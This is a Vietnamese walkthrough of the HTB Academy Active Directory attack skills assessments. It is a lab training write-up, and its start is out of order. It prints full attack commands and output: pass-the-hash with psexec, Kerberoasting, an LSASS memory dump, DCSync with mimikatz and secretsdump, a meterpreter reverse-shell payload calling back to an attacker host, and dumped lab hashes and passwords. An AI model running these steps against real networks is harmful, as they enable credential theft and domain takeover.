impacket-psexec INLANEFREIGHT.LOCAL/Administrator@ACADEMY-EA-DC03 -hashes 'aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf'
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on ACADEMY-EA-DC03.....
[*] Found writable share ADMIN$
[*] Uploading file ulwcXTdH.exe
[*] Opening SVCManager on ACADEMY-EA-DC03.....
[*] Creating service lFnL on ACADEMY-EA-DC03.....
[*] Starting service lFnL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```

Vậy có lẽ nào hắn có khả năng dump hashes không?

```zsh
impacket-secretsdump -just-dc-ntlm INLANEFREIGHT/Administrator@ACADEMY-EA-DC03 -hashes 'aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf'
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a3f8446ac62fe83bf9534591a8c3af82:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4e1b9b28f7f31d2e116778075c3551f3:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
FREIGHTLOGISTICS.LOCAL\freight-admin:1107:aad3b435b51404eeaad3b435b51404ee:de6ed16c1c1858826c0d99cd54408c88:::
FREIGHTLOGISTICS.LOCAL\j-koy:1108:aad3b435b51404eeaad3b435b51404ee:ee84987fe4dc6997abd2655ed5d5c144:::
FREIGHTLOGISTICS.LOCAL\gdoodler:1114:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
mssqlsvc:1118:aad3b435b51404eeaad3b435b51404ee:19fa7a4aeeb74ebb7b609c2af50be3e9:::
sapsso:2103:aad3b435b51404eeaad3b435b51404ee:5fb2e69bef7cc4a270666487e0f1cb88:::
ACADEMY-EA-DC03$:1002:aad3b435b51404eeaad3b435b51404ee:6a011841111644f2cab8ee865267eb13:::
WIN-PA3E0V9ZGR7$:1110:aad3b435b51404eeaad3b435b51404ee:93cb9a8a1742df1bb100342a9f94f745:::
WIN-XCM8GBLD6H9$:1112:aad3b435b51404eeaad3b435b51404ee:25bbd2e88685de1a53eef6daac1a3418:::
WIN-UITHSFM6VDA$:1113:aad3b435b51404eeaad3b435b51404ee:0cc4e6b579e7baf4140bdb88bfad705b:::
WIN-WGZCO3JEPBM$:1115:aad3b435b51404eeaad3b435b51404ee:3b8c1cac61f6d2a4b1dc4d081454dd1d:::
INLANEFREIGHT$:1105:aad3b435b51404eeaad3b435b51404ee:25b32911d50d3c1cca6bdc9041f37333:::
[*] Cleaning up... 
```

Anh em mình cứ thế thôi hẹ hẹ hẹ.


`sapsso` thuộc Administrators của FREIGHTLOGISTICS, chúng ta cũng đã có mật khẩu của hắn ta, vậy hãy lấy shell của ACADEMY-EA-DC03 và lấy flag.txt

```zsh
impacket-psexec FREIGHTLOGISTICS.LOCAL/sapsso:pabloPICASSO@ACADEMY-EA-DC03
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on ACADEMY-EA-DC03.....
[*] Found writable share ADMIN$
[*] Uploading file aqjkiWzn.exe
[*] Opening SVCManager on ACADEMY-EA-DC03.....
[*] Creating service iGXo on ACADEMY-EA-DC03.....
[*] Starting service iGXo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\users
 
c:\Users>cd Administrator
 
c:\Users\Administrator>cd Desktop
 
c:\Users\Administrator\Desktop>type flag.txt
burn1ng_d0wn_th3_f0rest!
```

# AD Enumeration & Attacks - Skills Assessment Part I

## Scenario

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

+ 1  Submit the contents of the flag.txt file on the administrator Desktop of the web server

Truy cập vào `/uploads`, ta thấy có một webshell có sẵn được để lại ở đây như tình huống giả định.


Giờ chúng ta cần nhận shell và tiến hành đi sâu hơn.
`admin:My_W3bsH3ll_P@ssw0rd!`

Chúng ta có được thông tin ban đầu của máy chủ này:

```powershell
Host Name:                 WEB-WIN01
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00430-10710-91142-AA408
Original Install Date:     3/30/2022, 2:27:04 AM
System Boot Time:          6/17/2025, 9:28:50 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.24224532.B64.2408191458, 8/19/2024
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,376 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,754 MB
Virtual Memory: In Use:    677 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    INLANEFREIGHT.LOCAL
Logon Server:              N/A
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB4578966
                           [02]: KB4464455
Network Card(s):           2 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.84.154
                                 [02]: fe80::4dbc:f795:87b0:3efd
                                 [03]: dead:beef::4dbc:f795:87b0:3efd
                                 [04]: dead:beef::12a
                           [02]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet1
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.6.100
                                 [02]: fe80::e924:fe6a:e31e:808e
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```


Vì webshell này khá bất tiện nên chúng ta sẽ đẩy nó sang một reverseshell.


Thành công có được flag đầu tiên

```powershell
PS C:\windows\system32\inetsrv> cd C:\Users
PS C:\Users> cd Administrator
PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator\Desktop> type flag.txt
JusT_g3tt1ng_st@rt3d!
```

Để có cái nhìn tổng quát hơn, tôi đã chạy SharpHound.exe

```powershell
PS C:\windows\system32\inetsrv> cd c:\users\public
PS C:\users\public> cd download
PS C:\users\public> curl -o sharphound.exe http://10.10.15.100:9981/SharpHound.exe
PS C:\users\public> .\sharphound.exe -c all --zipfilename ILFREIGHT
```

Tiến hành chuyển file sang VM để phân tích:

```zsh
❯ mkdir share
❯ sudo impacket-smbserver share -smb2support ./share -user test -password test
[sudo] password for kali: 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.84.154,49821)
[*] AUTHENTICATE_MESSAGE (\test,WEB-WIN01)
[*] User WEB-WIN01\test authenticated successfully
[*] test:::aaaaaaaaaaaaaaaa:8ed23b5a580f0f355a2e2b6293309e9e:0101000000000000008ee62c0fe0db01aa601e4ced5e1a4d000000000100100058007400780051004800720071006f000300100058007400780051004800720071006f00020010005200620067004500580059004e005800040010005200620067004500580059004e00580007000800008ee62c0fe0db0106000400020000000800300030000000000000000000000000400000cef05a7bbde45e81b48885d8b191a16322c6073e07852e668208530d3669e5b80a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e00310030003000000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```

Trên máy Windows:

```powershell
PS C:\users\public> dir


    Directory: C:\users\public


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---       12/15/2020   2:29 AM                Documents                                                             
d-r---        9/15/2018  12:12 AM                Downloads                                                             
d-r---        9/15/2018  12:12 AM                Music                                                                 
d-r---        9/15/2018  12:12 AM                Pictures                                                              
d-r---        9/15/2018  12:12 AM                Videos                                                                
-a----        6/17/2025  10:05 PM         238416 20250617220545_ILFREIGHT.zip                                          
-a----        6/17/2025  10:04 PM        1307136 sharphound.exe                                                        
-a----        6/17/2025  10:05 PM           1623 ZWYyMDIyNjctMDA3Zi00MmUxLThlYmMtZTM1ZmMzZTA3NzMy.bin                  


PS C:\users\public> net use n: \\10.10.15.100\share /user:test test
The command completed successfully.

PS C:\users\public> move 20250617220545_ILFREIGHT.zip n:\

```


Như vậy DC của INLANEFREIGHT.LOCAL là DC01.INLANEFREIGHT.LOCAL

```powershell
Pinging DC01.INLANEFREIGHT.LOCAL [172.16.6.3] with 32 bytes of data:
Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
```

Vậy trước hết ta có ip của máy foothold (WEB-WIN01): 172.16.6.100 từ systeminfo và ip của DC là 172.16.6.3

+ 1  Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

Liệt kê các tài khoản dịch vụ (Kerberoastable) ta thấy SVC_SQL@INLANEFREIGHT.LOCAL có SPN giống như yêu cầu. Tiến hành Kerberoast tài khoản này.



Tải sang Rubeus.exe:

```powershell
PS C:\users\public> copy n:\Rubeus.exe 
```

Kerberoasting:

```powershell
.\Rubeus.exe kerberoast /user:svc_sql /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : svc_sql
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=svc_sql)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : svc_sql
[*] DistinguishedName      : CN=svc_sql,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : MSSQLSvc/SQL01.inlanefreight.local:1433
[*] PwdLastSet             : 3/30/2022 2:14:52 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_sql$INLANEFREIGHT.LOCAL$MSSQLSvc/SQL01.inlanefreight.local:1433@INLANEFREIGHT.LOCAL*$E48CBC99B8451E45D1037F754041C86A$16BEBF4FB22DF0CB7A1D00A0AE48A1DBDE1D86C28F5C1825973C8CF6822FB7CB3BB2DA4936B44BB70AA518D6C7CEFF1EED8CCD36F8A233150AF99B8B78C48BEF52F621231B06E447584C5B6B0B49F2922FAF9A4422B3035E2FD9AB1A107AA42BA69747EEF883FE8C3FB37D901F58362754E6DB6E59EE75610895A99137F8977CFE1198C64ED9CDBB5E0C1EFBF4EADD6664804EDDACE20C0834D327BF0A5781669AD6993E10D7DD757629FA42B660EBBBD8FF80934935FB37CACADF4C472FA2F4608C6C89069322C62A6EE39BA8B11BD6F86D8CEBD287CB29AAD8E8209D8663829FC43A351D2F7B680379D2E2C91E65CAEE3282072410DC6CCD601FBC5C69A1B1EE412FDC9FA2D7C3BE74F0F2AA1CBF791BA667DCA1803A458F442E62B4231C394E25AC8C76B23AB4C39D8102CD294DB01AC2E55C4EDBD44BADC64BB4BDC34953365D2DCACC9D49D3CDD399330D263A7660C177169CC39CE2D0A1840AAC3DC1CA6FE5899A6A2515129A56FA9E335AB3CC05DAD59142C0E1E267FAD7BFA952D7FC4B3D6F7D95E192E8AF9F9AEBD68B0E61C489770F4E8AD182A9994E878BC16728FF6A3224B3A7008F85C5FF2F300A8D961308DC1C5D3B5E0EA0D42802E1CBF287286B27511C7D09DF41DF4BD22A3A3DE50B87407A091ED905406D386363EA24763CF2F6453F2A988682EFDE6AA0F35FBB2787CD57A8B3B571EE90BEFA5429B935AB0C41087D52A57EE6DAC2F7C72DEF3D56B8AA4E989CA43290B7B88D8AD0BE69357D6383614AAA46B2EEB1B95510973A35A5026EF8767E9BF2B05E6B615D447B22CE8DE6C5FD3040FE022B09D4CCDCD3944AF44530C1D2DA85C4AF36B8F9FC9CF7CCA9059E3D65B6794789F513A4D98A0CEC07DF07F1CA2CB74E3DC00DE9335FCE4D3804958D05363E6E7D85EFFE846F464C585566C3D5AC659D60E42063039E23EB4A6DB59B40D663439E18D9CE312FDBDDAD849F25C4893F0D727492E5F305F7154F1C2DDC949E579E0EC87B31A82B8C235D45F3A851B95C07D330CACFC43DAB0DE5AA821FDC61281C5C80E58719A6A1FFCE3FA59A71C8B868F829200554D9518D105333EA7607069910BD995BCAD3D126F43745326869A43C0A1A29A688B6FD3A9DF046119E56D1C475130987704424D8A15167C05884AFAA0B87C1D48EC7D6C4EB0574DA3143678049CE92A1A11DA8CFE561666C7CE4AC0964B32BC2A6C7CDC6671A8784B1F164C8AA810EB6C384FFFF8980C09CABE7B7A1EBBEA986EA782CCD8DA3B47000AC4A64421E253C4A78D3DC7B675C8E3C921280FA60A33A3652D568DD0991F3153D30595701F8A87955FC6A6B50CDC3C424FFD19A82897FE221F1409CD795DC02EF2755FCB17172584A428B778E59DBB46967D038200148311B95EA4283CB97935F8196425A9669EC15B59F5593C47240A4A03A25B7F3275D58C8DDA4BC12EB1293B619140F83F4201B7DCDB7B6F72EBA8F21379C88E86CE89E902F91802F166A89C2D9E7752FE826006E37053103B842E0
```

+ 1  Crack the account's password. Submit the cleartext value.

Tiến hành bẻ khóa với hashcat, ta được mật khẩu là `lucky7`

```zsh
hashcat -m 13100 svc_sql_ilhash /usr/share/wordlists/rockyou.txt
```

+ 1  Submit the contents of the flag.txt file on the Administrator desktop on MS01

Xác nhận MS01:

```powershell
Pinging MS01.INLANEFREIGHT.LOCAL [172.16.6.50] with 32 bytes of data:
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128
```

Từ cred ta vừa có được: svc_sql:lucky7, tôi đã thử tạo phiên powershell remoting nhưng thất bại.

```powershell
PS C:\> $password = ConvertTo-SecureString "lucky7" -AsPlainText -Force
PS C:\> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\svc_sql", $password)
PS C:\> Enter-PSSession -ComputerName MS01 -Credential $cred
PS C:\> 
PS C:\> hostname
WEB-WIN01
PS C:\> Enter-PSSession -ComputerName "MS01" -Credential $cred
PS C:\> $user = "inlanefreight\svc_sql"
$Password = ConvertTo-SecureString "lucky7" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential ($user, $Password
PS C:\> PS C:\> Enter-PSSession -ComputerName "MS01.inlanefreight.local" -Credential $credentials
PS C:\> Enter-PSSession -ComputerName 172.16.6.50 -Credential $credentials
PS C:\> 
```

Do đó, chúng ta sẽ pivot và dùng winRM hoặc RDP.

Trước hết tôi sẽ thử với `metasploit`.

Tạo payload với msfvenom

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.100 -f exe -o backupscript.exe LPORT=6666

# Upload Server
python3 -m http.server 9981
```


```zsh
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 6666
lport => 6666
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.15.100:6666 
[*] Sending stage (203846 bytes) to 10.129.202.242
[*] Meterpreter session 1 opened (10.10.15.100:6666 -> 10.129.202.242:49697) at 2025-06-18 03:02:53 -0400

meterpreter > sysinfo
Computer        : WEB-WIN01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Chạy payload
```powershell
wget http://10.10.15.100:9981/backupscript.exe
.\backupscript.exe
```

Trước khi pivot, tôi sẽ thử PS remote với shell của evil-winRM trước:

```zsh
evil-winrm -i $ip -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> $password = ConvertTo-SecureString "lucky7" -AsPlainText -Force
*Evil-WinRM* PS C:\Users\Administrator\Documents> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\svc_sql", $password)
*Evil-WinRM* PS C:\Users\Administrator\Documents> Enter-PSSession -ComputerName MS01.INLANEFREIGHT.LOCAL -Credential $cred
You are currently in a Windows PowerShell PSSession and cannot use the Enter-PSSession cmdlet to enter another PSSession.
At line:1 char:1
+ Enter-PSSession -ComputerName MS01.INLANEFREIGHT.LOCAL -Credential $c ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [Enter-PSSession], ArgumentException
    + FullyQualifiedErrorId : RemoteHostDoesNotSupportPushRunspace,Microsoft.PowerShell.Commands.EnterPSSessionCommand

*Evil-WinRM* PS C:\Users\Administrator\Documents> $session = New-PSSession -ComputerName MS01.INLANEFREIGHT.LOCAL -Credential $cred 
*Evil-WinRM* PS C:\Users\Administrator\Documents> Enter-PSSession -Session $session 
You are currently in a Windows PowerShell PSSession and cannot use the Enter-PSSession cmdlet to enter another PSSession.
At line:1 char:1
+ Enter-PSSession -Session $session
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [Enter-PSSession], ArgumentException
    + FullyQualifiedErrorId : RemoteHostDoesNotSupportPushRunspace,Microsoft.PowerShell.Commands.EnterPSSessionCommand

```

Không khả thi, chúng ta phải có cách nào đó để có được shell của MS01.

Một điều khá thú vị là khi tôi cố tình enable RDP cho WEB-WIN01, nó hoàn toàn có một phiên RDP được thiết lập và bạn sẽ thấy thông báo sau, kèm theo đó chúng ta sẽ bị đẩy ra ngoài...


Giải pháp cuối cùng, có lẽ là pivot.

Chisel không đem lại hạnh phúc cho tôi lúc này:


Tôi sẽ pivot bằng msfconsole:

```zsh
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050

SRVPORT => 9050

msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0

SRVHOST => 0.0.0.0

msf6 auxiliary(server/socks_proxy) > set version 4a

version => 4a

msf6 auxiliary(server/socks_proxy) > run
```


```zsh
proxychains nmap -sT -p 3389,5985 172.16.6.50 -Pn -v
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 04:17 EDT
Initiating Parallel DNS resolution of 1 host. at 04:17
Completed Parallel DNS resolution of 1 host. at 04:17, 0.00s elapsed
Initiating Connect Scan at 04:17
Scanning 172.16.6.50 [2 ports]
Completed Connect Scan at 04:17, 3.00s elapsed (2 total ports)
Nmap scan report for 172.16.6.50
Host is up.

PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.03 seconds
```

Ngoài ra ta vẫn cần autoroute cho 172.16.6.0.

Kiểm tra rdp trên MS01:

```zsh
msf6 auxiliary(scanner/rdp/rdp_scanner) > run
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  127.0.0.1:1080 <--denied
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.6.50:3389  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.6.50:3389  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.6.50:3389  ...  OK
[*] 172.16.6.50:3389      - Detected RDP on 172.16.6.50:3389      (name:MS01) (domain:INLANEFREIGHT) (domain_fqdn:INLANEFREIGHT.LOCAL) (server_fqdn:MS01.INLANEFREIGHT.LOCAL) (os_version:10.0.17763) (Requires NLA: Yes)
[*] 172.16.6.50:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Lấy phiên RDP cho MS01

```zsh
proxychains xfreerdp3 /v:172.16.6.50 /u:'INLANEFREIGHT\svc_sql' /p:lucky7 /drive:linux,/home/kali/Desktop/learning/AD_enum_attack/share
```


Lụm nhẹ cái flag


+ 1  Find cleartext credentials for another domain user. Submit the username as your answer.

Qua truy vấn trên BH, MS01 có SESSION của một người dùng:


Anh ta có khả năng thực hiện dcsync, điều này có ý nghĩa rất to lớn nếu như chúng ta có thể mạo danh người dùng tpetty@inlanefreight.local này.


Điều khả thi nhất lúc này có lẽ là một pha dump lsass.

```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1340      32     6916      18884       2.03    656   0 lsass


PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 656 C:\lsass.dmp full
```

Chuyển nó sang ổ đĩa mà ta đã chia sẻ:


Tiến hành dump

```zsh
pypykatz lsa minidump lsass.dmp > lsass_dump.txt
INFO:pypykatz:Parsing file lsass.dmp
```

+ 1  Submit this user's cleartext password.
```zsh
== LogonSession ==
authentication_id 254813 (3e35d)
session_id 1
username tpetty
domainname INLANEFREIGHT
logon_server DC01
logon_time 2025-06-18T06:59:00.241288+00:00
sid S-1-5-21-2270287766-1317258649-2146029398-4607
luid 254813
	== MSV ==
		Username: tpetty
		Domain: INLANEFREIGHT
		LM: NA
		NT: fd37b6fec5704cadabb319cebf9e3a3a
		SHA1: 38afea42a5e28220474839558f073979645a1192
		DPAPI: da2ec07551ab1602b7468db08b41e3b200000000
	== WDIGEST [3e35d]==
		username tpetty
		domainname INLANEFREIGHT
		password None
		password (hex)
	== Kerberos ==
		Username: tpetty
		Domain: INLANEFREIGHT.LOCAL
	== WDIGEST [3e35d]==
		username tpetty
		domainname INLANEFREIGHT
		password None
		password (hex)
	== DPAPI [3e35d]==
		luid 254813
		key_guid 8145d9b4-f8e8-4559-81f7-4a94a5de461c
		masterkey 3c9875e8ec6400aef51dd28f6068a478be168bcabbeca51b98250d5ca3429ee7c5253cc2eeb76c3c890beb54c46a82eaf713cc5689a00b4ca1867298946c5a2f
		sha1_masterkey ae124b2b2d7c55ac2d8c1cb9ffe533654d483fe9

```

Chúng ta không thể bẻ khóa hashNT với hashcat, vậy thử dump SAM thì sao.

Thực ra nó không cần thiết phải lấy mật khẩu bản rõ, tuy nhiên theo yêu cầu chúng ta cứ dump SAM.

Lấy về các file:

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

Tiến hành dump SAM

```zsh
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

Có một mật khẩu bản rõ ở đây, thậm chí chúng ta còn có cả hash của quản trị viên miền...


+ 1  What attack can this user perform?

Như đã đề cập ở trên, người dùng này có thể thực hiện một cuộc tấn công dcsync


+ 1  Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01

Dù sao ta cũng có hash của quản trị viên miền, tuy nhiên loại hash này cực kì khó nhằn để crack và hơn nữa nó không thể dùng để Path The Hash...

Chúng ta đã có được ip của DC được đề cập ở trên là 172.16.6.3

Dcsync From Linux:

```zsh
proxychains4 impacket-secretsdump -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/tpetty@172.16.6.3
```


Dcsync From Windows

Chạy cmd run as tpetty, chạy mimikatz.exe


```cmd
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

Kết quả cần chú ý:
```powershell
Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6dbd63f4a0e7c8b221d61f265c4a08a7:::
```

Chúng ta tiến hành `jump` sang DC và có toàn quyền trên miền

Trên Linux:
```zsh
proxychains4 impacket-psexec INLANEFREIGHT.LOCAL/Administrator@172.16.6.3 -hashes 'aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0'
```


Trên Windows

Chạy cmd dưới quyền admin, chạy mimikatz và dùng path the hash

```cmd
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:Administrator /ntlm:27dedb1dab4d8545c6e1c66fba077da0
```


Chúng ta có vô vàn cách, ngoài ra bạn có thể thử evil-winRM hoặc RDP...

```zsh
proxychains crackmapexec smb 172.16.6.3 -u Administrator -d INLANEFREIGHT.LOCAL -H 27dedb1dab4d8545c6e1c66fba077da0 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```


```zsh
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```


# AD Enumeration & Attacks - Skills Assessment Part II

---

## Scenario

Our client Inlanefreight has contracted us again to perform a full-scope internal penetration test. The client is looking to find and remediate as many flaws as possible before going through a merger & acquisition process. The new CISO is particularly worried about more nuanced AD security flaws that may have gone unnoticed during previous penetration tests. The client is not concerned about stealth/evasive tactics and has also provided us with a Parrot Linux VM within the internal network to get the best possible coverage of all angles of the network and the Active Directory environment. Connect to the internal attack host via SSH (you can also connect to it using `xfreerdp` as shown in the beginning of this module) and begin looking for a foothold into the domain. Once you have a foothold, enumerate the domain and look for flaws that can be utilized to move laterally, escalate privileges, and achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part II of the skills assessment.

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s):  Target(s) are spawning...  

 SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 1  Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?

Kiểm tra sơ bộ, chúng ta có dải mạng của domain này: 172.16.7.0/23

```zsh
ifconfig | grep inet
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet 10.129.83.144  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::5eaf:976d:86b0:54d  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::1ca4:e90c:ebce:5fb4  prefixlen 64  scopeid 0x20<link>
        inet 172.16.7.240  netmask 255.255.254.0  broadcast 172.16.7.255
        inet6 fe80::2957:2d31:5225:229a  prefixlen 64  scopeid 0x20<link>
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
```

```zsh
fping -asgq 172.16.7.0/23
172.16.7.3
172.16.7.50
172.16.7.60
172.16.7.240

     510 targets
       4 alive
     506 unreachable
       0 unknown addresses

    2024 timeouts (waiting for response)
    2028 ICMP Echos sent
       4 ICMP Echo Replies received
    2024 other ICMP received

